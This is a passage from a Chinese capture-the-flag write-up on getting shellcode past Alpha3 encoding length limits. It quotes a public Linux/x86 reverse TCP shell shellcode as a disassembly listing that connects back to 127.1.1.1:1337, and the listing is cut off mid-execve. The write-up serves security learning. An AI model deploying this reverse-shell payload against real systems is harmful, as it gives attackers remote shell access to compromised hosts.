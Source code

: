 然而，我们会发现，这样构造的ShellCode在Alpha3变换后长度过长，无法使用。

![image](assets/image-20250406183404-a8skbxm.png)

~~因为是断网的比赛，我也没有足够的shellcode库存，其实我在打比赛的时候就到打这里了~~

# 解决方案

## Reverse TCP ShellCode

我们可以在shellstorm上找到这样一个ShellCode:

[Linux/x86 - Shell Reverse TCP Shellcode - 74 bytes](https://shell-storm.org/shellcode/files/shellcode-883.html)

```python
/* 
*  Title:    Shell Reverse TCP Shellcode - 74 bytes
*  Platform: Linux/x86
*  Date:     2014-07-25
*  Author:   Julien Ahrens (@MrTuxracer)
*  Website:  http://www.rcesecurity.com 
*
* Disassembly of section .text:
*  00000000 <_start>:
*  0:   6a 66                push   0x66
*  2:   58                   pop    eax
*  3:   6a 01                push   0x1
*  5:   5b                   pop    ebx
*  6:   31 d2                xor    edx,edx
*  8:   52                   push   edx
*  9:   53                   push   ebx
*  a:   6a 02                push   0x2
*  c:   89 e1                mov    ecx,esp
*  e:   cd 80                int    0x80
* 10:   92                   xchg   edx,eax
* 11:   b0 66                mov    al,0x66
* 13:   68 7f 01 01 01       push   0x101017f <ip: 127.1.1.1
* 18:   66 68 05 39          pushw  0x3905 <port: 1337
* 1c:   43                   inc    ebx
* 1d:   66 53                push   bx
* 1f:   89 e1                mov    ecx,esp
* 21:   6a 10                push   0x10
* 23:   51                   push   ecx
* 24:   52                   push   edx
* 25:   89 e1                mov    ecx,esp
* 27:   43                   inc    ebx
* 28:   cd 80                int    0x80
* 2a:   6a 02                push   0x2
* 2c:   59                   pop    ecx
* 2d:   87 da                xchg   edx,ebx
*
* 0000002f <loop>:
* 2f:   b0 3f                mov    al,0x3f
* 31:   cd 80                int    0x80
* 33:   49                   dec    ecx
* 34:   79 f9                jns    2f <loop>
* 36:   b0 0b                mov    al,0xb
* 38:   41                   inc    ecx
* 39:   89 ca                mov    edx,ecx
* 3b:   52                   push   edx
* 3c:   68 2f 2f 73 68       push   0x68732f2f
```